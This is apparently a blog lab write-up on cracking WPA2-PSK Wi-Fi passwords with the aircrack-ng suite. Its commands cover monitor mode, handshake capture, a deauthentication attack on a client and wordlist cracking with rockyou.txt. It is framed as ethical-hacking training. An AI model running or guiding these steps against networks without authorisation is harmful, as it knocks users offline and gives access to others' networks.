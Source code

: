 ```yaml
---
title: Password Cracking WPA2-PSK Networks
author: Tarus
date: 2023-06-02 16:51:00 +0300
categories: [Labs]
tags: [WPA2, wifi, mac address, kali linux, airmon-ng]
---
```


## What Activities Ethical Hackers perform on Wireless Networks
- Evaluating strength of PSK
- Reviewing nearby networks, rogue devices
- Assessing guest networks
- Checking network access

## Tools used
- Wireless card that supports dual band, monitor mode and packet injection. => [Plug and Play Wireless card](https://amzn.to/3RQ6XCr)
- Router
- Laptop

## Hacking Process
![Hacking Process](/assets/wpa2/wpa2.png)

```plaintext
iwconfig                        #check the wireless network configurations, check if usb wireless card is working
airmon-ng check kill            #kill processes that may interfere with what we are about to do
airmon-ng start wlan0           #allows wireless card to monitor incoming traffic, where "wlan0" is name of your wireless card
iwconfig                        #confirm whether monitor mode has been enabled

airodump-ng wlan0mon            #finding the wireless network we want to specifically attack

#bssid - mac address of access point
#PWR(power level) - the lower the number the closer we are to the device
#beacons and data - show traffic happening on those bssids

airodump-ng -c 6 --bssid 50:C7:BF:8A:00:73 -w capture wlan0mon     #tries to capture the 3 way handshake
#-c = channel of the device
#-w capture = name of the file where the capture will be stored

#to speed the above process, do the deauth attack
#open another terminal
aireplay-ng -0 1 -a 50:C7:BF:8A:00:73 -c 50:C7:BF:8A:00:74 wlan0mon       #will deauthanticate this device 50:C7:BF:8A:00:74 from the network to capture the 3 way handshake
#-0 = deauth attack
#1 = only one time
#-c = client we want to deauth

aircrack-ng -w wordlist.txt -b 50:C7:BF:8A:00:73 capture.cap              #tries capturing the password by comparing it to a wordlist
#-b = Acess Point mac address

wireshark capture.cap              #monitor captured traffic in wireshark, search for eapol

aircrack-ng capture.cap -w /usr/share/wordlists/rockyou.txt             #using a popolar wordlist with over 1 million entries
```

This attack will only work when the WPA2-PSK network uses **WEAK PASSWORDS**
